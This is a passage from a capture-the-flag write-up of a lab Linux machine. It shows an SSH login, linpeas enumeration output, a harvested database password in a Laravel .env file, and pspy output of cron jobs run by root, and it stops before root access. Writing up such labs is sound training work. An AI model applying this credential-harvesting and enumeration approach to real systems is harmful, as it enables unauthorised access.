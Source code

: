 **User flag**
```
└─$ ssh susanne@10.10.11.176 
susanne@health:~$ cat user.txt 
4a59adbcdba2**********
```
## Root user
After having user access i uploaded `linpeas.sh` and here are some interesting results:-
```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    
tcp6     113      0 :::80                   :::*                    LISTEN      -                    
tcp6       0      0 :::22                   :::*                    LISTEN      -                    
tcp6       0      0 :::3000                 :::*                    LISTEN      -  
```
One of the port that is running is `3306` which is `mysql` database, also `linpeas.sh` shows the database name and password in `.env` inside `/var/www/html`
```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=laravel
DB_USERNAME=laravel
DB_PASSWORD=MYsql_strongestpass@2014+
```
Then i entered the credentials to access the database. Password will be `MYsql_strongestpass@2014+`
```
susanne@health:/var/www/html$ mysql -u laravel -p 
```
After access the database i navigated along it and i found the `tasks` table but it was empty so do almost all other tables, this can be caused by some of the cleaning process then i uploaded the `pspy64` to see all running processes.

There is `php artisan schedule:run` i don know what exactly it's doing but i know user `root` is running this process and also there is a cleaning script `clean.sh`
```
2022/10/07 11:47:01 CMD: UID=0    PID=58698  | php artisan schedule:run 
2022/10/07 11:47:01 CMD: UID=0    PID=58697  | /bin/bash -c cd /var/www/html && php artisan schedule:run >> /dev/null 2>&1 
2022/10/07 11:47:01 CMD: UID=0    PID=58696  | /bin/bash -c sleep 5 && /root/meta/clean.sh 
2022/10/07 11:47:01 CMD: UID=0    PID=58695  | /usr/sbin/CRON -f 
2022/10/07 11:47:01 CMD: UID=0    PID=58694  | /usr/sbin/CRON -f 
2022/10/07 11:47:01 CMD: UID=0    PID=58699  | /bin/bash -c sleep 5 && /root/meta/clean.sh 
2022/10/07 11:47:02 CMD: UID=0    PID=58700  | php artisan schedule:run 
2022/10/07 11:47:07 CMD: UID=0    PID=58706  | mysql laravel --execute TRUNCATE tasks 
2022/10/07 11:48:01 CMD: UID=0    PID=58711  | /bin/bash -c sleep 5 && /root/meta/clean.sh 
```